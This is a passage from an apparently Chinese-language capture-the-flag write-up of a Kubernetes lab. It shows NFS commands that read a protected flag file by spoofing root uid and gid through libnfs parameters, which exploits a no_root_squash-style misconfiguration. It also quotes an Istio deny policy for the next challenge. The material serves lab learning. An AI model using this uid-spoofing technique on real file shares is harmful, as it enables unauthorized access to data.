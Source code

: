 ```bash
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/

Failed to mount nfs share : mount_cb: nfs_service failed
```

而根据 `mount` 信息使用的是 nfsv4

```bash
player@wiz-k8s-lan-party:~$ nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4

----------  1     1     1           73 flag.txt
```

即可看到 flag.txt，此时直接获取会提示权限不足

```bash
player@wiz-k8s-lan-party:~$ nfs-cat nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4

Failed to open file /flag.txt: open call failed with "NFS4: (path /) failed with NFS4ERR_ACCESS(-13)"
Failed to open nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4
```

但 nfs 可能存在配置问题（比如配置了 `no_root_squash` 客户端以 root 访问会映射为 nfs服务端本地的root用户），允许客户端伪造 uid 和 gid。根据 `libnfs` 文档，对应的参数为

```bash
player@wiz-k8s-lan-party:~$ nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
```

即可拿到 flag

实际业务场景下，很多时候不得不使用 `no_root_squash` 然后采用一些其他方式限制正常用户访问，还是希望 NFS 后续能推出更好的颗粒度更小的权限划分功能

## 0x04 BYPASSING BOUNDARIES

> 📝 The Beauty and The Ist
> 
> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

本题限制 policy

```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```
